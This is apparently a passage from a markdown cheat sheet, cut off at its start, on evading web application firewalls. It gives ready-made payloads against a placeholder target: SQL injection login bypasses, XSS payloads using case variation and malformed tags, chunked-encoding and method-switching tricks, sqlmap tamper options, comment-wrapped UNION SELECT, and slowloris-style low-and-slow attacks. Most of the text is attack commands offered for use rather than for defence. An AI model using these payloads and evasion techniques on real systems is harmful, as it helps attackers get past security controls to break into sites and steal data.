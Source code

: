 ```bash
-H "Content-Type: application/json" \  
--data-raw '{"username":"admin'\'' OR 1=1--", "password":"any"}'

curl -X GET "https://target.com/admin" \  
-H "Random-Header: $(openssl rand -hex 8)" \  
-H "Referer: https://google.com"

curl -X POST "https://target.com/api" \  
-H "Transfer-Encoding: chunked" \  
--data-binary @malicious_payload.txt

Try IPv6 if the website has IPv6 enabled.

```


 Technique #4: Case Manipulation (WAF Case Sensitivity Bypass)
 - Some WAFs only block lowercase attack keywords but ignore uppercase variations.
```bash
#blocked 
GET /search?q=<script>alert(1)</script>

#case variation allowed
GET /search?q=<ScRiPt>alert(1)</ScRiPt>

curl -X GET "https://target.com/ADMIN/../LoGiN" \  
-H "User-Agent: cURL/7.68.0"
```

 
 Technique #5: Change the method
 - WAF was only filtering GET requests, but POST requests were not being sanitized.
```bash
 POST /api/v1/admin-login
Content-Type: application/json

{"username": "admin", "password": "' OR '1'='1' --"}
```


 Technique #6: Tamper Scripts(SQLMAP)
 ```bash
 --tamper=between,randomcase,charunicodeencode,space2comment
```


Technique #7: Payload Wrapping
```bash
UN/**/ION/**/SELECT #Wrap payloads in SQL or HTML comments:

<scr<script>ipt>alert(1)</script> #malformed script
```

Technique #8 : Low and Slow Attacks
- Use tools like slowloris or slowhttptest
- Send payloads byte-by-byte with delays to avoid detection
